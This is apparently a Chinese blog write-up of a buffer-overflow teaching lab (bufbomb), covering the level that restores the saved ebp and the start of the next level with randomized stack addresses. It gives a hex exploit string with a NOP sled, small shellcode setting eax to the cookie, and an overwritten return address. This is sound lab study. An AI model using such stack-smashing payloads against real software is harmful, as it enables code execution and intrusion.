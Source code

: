 想了很久没想明白，ebp被覆盖了怎么可能复原ebp，百度看了师傅们的博客发现栈居然是固定的。。。

ROPgadget也找不到能用的gadget，所以考虑shellcode

对比 执行getbuf之前 和 需要跳转到`call getbuf`的下一条指令时的 ebp、esp

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1gh8d4rwqpdj314e0u0k5s.jpg)

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1gh8d4xsabvj31320u04bu.jpg)

发现ebp不同，esp相同，只要确保esp不变修改ebp就可以了

利用`leave`指令，只要用原来ebp的值覆盖原来的ebp（也就是ebp指向的内存不变）就可以获得正常的ebp

然后将需要跳转的地址压栈，执行`ret`就可以了

用pwntools找汇编对应机器码

![](https://tva1.sinaimg.cn/large/007S8ZIlly1gh8daerobjj313c0hwdk4.jpg)

由于是返回栈上地址，为了稳妥我还是用`nop`指令（`nop`：什么事情也不做，继续执行下一条指令）填充，如果栈地址有微小变化，只要命中`nop`就能滑到shellcode（事实证明栈地址就是固定的）

exp:

```
90 90 90 90 
90 90 90 90
90 90 90 90 
90 90 90 90
90 90 90 90 
90 90 90 90
90 90 90 90 
b8 ef 9a 4c 62 		//mov eax,0x624c9aef
68 be 8d 04 08 		//push 0x08048dbe
c3 90							//ret(\x90用来字节对齐)
10 31 68 55
b8 30 68 55

```

valid

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1gh8dlu4je7j3158060wge.jpg)

### kaboom

同样找了半天函数

>本级要使用./bufbomb的-n参数，bufbomb不会再像从前哪样调用test()，而是调用testn()，testn()又调getbufn()。本级的任务是使getn返回cookie给testn()。听上去似乎与上一级没什么不同，但实际上该级的栈地址是动态的，每次都不一样，bufbomb会连续要我们输入5次字符串，每次都调用getbufn()，每次的栈地址都不一样，所以我们将不能再使用原来用gdb调试的方法来求%ebp的地址了。
>
>作者：zhwhong
>链接：https://www.jianshu.com/p/dc41c84cef17
>来源：简书
>著作权归作者所有。商业转载请联系作者获得授权，非商业转载请注明出处。
